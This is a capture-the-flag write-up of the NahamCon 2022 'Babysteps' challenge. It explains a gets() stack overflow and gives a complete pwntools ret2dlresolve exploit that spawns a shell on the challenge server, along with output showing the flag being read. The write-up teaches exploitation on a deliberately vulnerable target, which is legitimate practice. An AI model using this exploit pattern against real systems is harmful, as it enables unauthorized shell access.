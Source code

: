 # NahamCon CTF 2022

## Babysteps 

> Become a baby! Take your first steps and jump around with BABY SIMULATOR 9000! 
>
> Author: @JohnHammond#6971
>
> [`babysteps`](babysteps) [`babysteps.c`](babysteps.c)

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _ret2dlresolve_


## Summary

Embryo pwn featuring `gets`.

From `man gets`:

```
BUGS

Never use gets(). Because it is impossible to tell without knowing the data
in advance how many characters gets() will read, and because gets() will
continue to store characters past the end of the buffer, it is extremely
dangerous to use. It has been used to break computer security. Use fgets()
instead.
```

## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No mitigations, basically choose your own adventure.  I went with _ret2dlresolve_ because I'm lazy and the code is identical for most `gets` challenges.


### Ghidra Decompile

```c
void ask_baby_name(void)
{
  char local_1c [20];
  
  puts("First, what is your baby name?");
  gets(local_1c);
  return;
}
```

`gets` is the vulnerability and given no constraints there are numerous ways to solve this.

`local_1c` is `0x1c` bytes from the base of the stack frame (right above the return address `main` will _return_ to on `return`).  To exploit just write out `0x1c` bytes of garbage followed by your exploit.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./babysteps', checksec=False)

rop = ROP(binary)
dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31127)
else:
    p = process(binary.path)

payload  = b''
payload += 0x1c * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendlineafter(b'name?\n',payload)
p.interactive()
```

Google _ret2dlresolve_ or read some of my other write ups for details.

Output:

```bash
# ./exploit.py REMOTE=1
[*] Loaded 10 cached gadgets for './babysteps'
[+] Opening connection to challenge.nahamcon.com on port 31127: Done
[*] Switching to interactive mode
$ cat flag.txt
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
```